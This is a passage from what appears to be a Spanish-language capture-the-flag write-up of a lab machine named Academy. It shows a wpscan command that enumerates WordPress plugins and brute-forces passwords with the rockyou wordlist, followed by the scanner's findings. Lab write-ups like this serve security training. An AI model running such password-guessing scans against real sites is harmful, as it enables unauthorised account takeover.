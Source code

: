 ![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/707a2955-3abd-4032-8c7c-9d6aed168533)

Tenemos que agregar `academy.thl` al `/etc/hosts`.

#### Academia
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/1337d848-551c-40a8-9e4b-39f9a60fd50e)

Nos dice que la pagina utiliza un wordpress y que es inhackeable.

# Fase 3- Explotación

#### wordpress
```python
❯ wpscan --url http://academy.thl/wordpress/ --enumerate ap -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://academy.thl/wordpress/ [192.168.1.12]
[+] Started: Sun Jun 16 15:09:46 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.59 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://academy.thl/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://academy.thl/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://academy.thl/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://academy.thl/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299
```